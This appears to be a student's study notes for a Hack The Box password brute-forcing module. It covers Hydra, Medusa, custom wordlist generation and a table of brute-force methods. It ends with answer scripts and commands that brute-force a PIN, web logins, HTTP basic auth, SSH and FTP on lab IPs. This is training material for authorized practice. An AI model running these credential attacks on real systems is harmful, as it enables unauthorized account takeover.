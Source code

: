 ### Content
* Tools:
	* [[Hydra]]
	* [[Medusa]]
* [[#Custom Wordlists]]
	* Username Anarchy
	* CUPP
* [[#Edit a wordlist to be tailored to a specific policy with grep]]
* [[#Types of Brute Forcing]]
* [[#HTB Module Answers]]
---
## Edit a wordlist to be tailored to a specific policy with grep
Suppose we have this policy:
- Minimum length: 8 characters 
- Must include:
    - At least one uppercase letter 
    - At least one lowercase letter 
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)
``` bash
 grep -E '^.{8,}$' old-wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > new-wordlist.txt
```
---
## Custom Wordlists
* **Username Anarchy** `https://github.com/urbanadventurer/username-anarchy.git`
Create personalized username wordlists
``` bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy john doe > john_doe_usernames.txt
```
* **CUPP** (Common User Passwords Profiler)
Create personalized password wordlists that leverage the gathered intelligence about your target.
``` bash
cupp -i
```
---
## Types of Brute Forcing
| Method                    | Description                                                                                                                   | Example                                                                                                                                                  | Best Used When...                                                                                                                           |
| ------------------------- | ----------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `Simple Brute Force`      | Systematically tries all possible combinations of characters within a defined character set and length range.                 | Trying all combinations of lowercase letters from 'a' to 'z' for passwords of length 4 to 6.                                                             | No prior information about the password is available, and computational resources are abundant.                                             |
| `Dictionary Attack`       | Uses a pre-compiled list of common words, phrases, and passwords.                                                             | Trying passwords from a list like 'rockyou.txt' against a login form.                                                                                    | The target will likely use a weak or easily guessable password based on common patterns.                                                    |
| `Hybrid Attack`           | Combines elements of simple brute force and dictionary attacks, often appending or prepending characters to dictionary words. | Adding numbers or special characters to the end of words from a dictionary list.                                                                         | The target might use a slightly modified version of a common password.                                                                      |
| `Credential Stuffing`     | Leverages leaked credentials from one service to attempt access to other services, assuming users reuse passwords.            | Using a list of usernames and passwords leaked from a data breach to try logging into various online accounts.                                           | A large set of leaked credentials is available, and the target is suspected of reusing passwords across multiple services.                  |
| `Password Spraying`       | Attempts a small set of commonly used passwords against a large number of usernames.                                          | Trying passwords like 'password123' or 'qwerty' against all usernames in an organization.                                                                | Account lockout policies are in place, and the attacker aims to avoid detection by spreading attempts across multiple accounts.             |
| `Rainbow Table Attack`    | Uses pre-computed tables of password hashes to reverse hashes and recover plaintext passwords quickly.                        | Pre-computing hashes for all possible passwords of a certain length and character set, then comparing captured hashes against the table to find matches. | A large number of password hashes need to be cracked, and storage space for the rainbow tables is available.                                |
| `Reverse Brute Force`     | Targets a single password against multiple usernames, often used in conjunction with credential stuffing attacks.             | Using a leaked password from one service to try logging into multiple accounts with different usernames.                                                 | A strong suspicion exists that a particular password is being reused across multiple accounts.                                              |
| `Distributed Brute Force` | Distributes the brute forcing workload across multiple computers or devices to accelerate the process.                        | Using a cluster of computers to perform a brute-force attack significantly increases the number of combinations that can be tried per second.            | The target password or key is highly complex, and a single machine lacks the computational power to crack it within a reasonable timeframe. |

---
## HTB Module Answers
* Q1
``` python
import requests
ip = "94.237.51.112"
port = "40414"
for pin in range(10000):
    p = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={p}")
    print(f"pin: {p}")
    if response.ok:
        print(f"Correct pin: {p}")
        print(response.json())
        break
```
* Q2
``` python
import requests
ip = "94.237.60.32"
port = "45071"
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.split()
for password in passwords:
    print(f"Try: {password}")
    request = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
    if request.ok:
        print(f"The correct password: {password}")
        print(request.json())
        break
```
* Q3
``` bash
hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P "2023-200_most_used_passwords.txt"
```
* Q4
``` bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials
```
* Q5
``` bash
medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
# Login and use a session from the target:
ssh sshuser@<IP> -p PORT
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```